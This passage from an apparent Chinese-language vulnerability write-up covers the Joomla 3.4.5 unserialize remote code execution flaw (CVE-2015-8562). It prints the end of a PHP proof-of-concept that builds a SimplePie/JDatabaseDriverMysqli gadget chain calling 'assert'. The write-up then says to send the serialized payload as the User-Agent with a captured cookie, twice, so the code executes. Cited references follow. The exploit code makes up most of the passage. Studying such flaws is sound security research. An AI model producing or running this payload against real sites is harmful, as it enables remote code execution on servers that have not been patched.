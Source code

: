 ```php
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a); 

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
```

将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏**数据进入Mysql数据库**。

然后同样的包**再发一次**，我们的代码被执行：

![](https://i.loli.net/2021/02/13/Lhlf4DN5pH7erMv.png)

参考

[Joomla远程代码执行漏洞分析（总结） | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html#session)

[Joomla 3.4.5 反序列化漏洞（CVE-2015-8562) 分析 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/64017530)

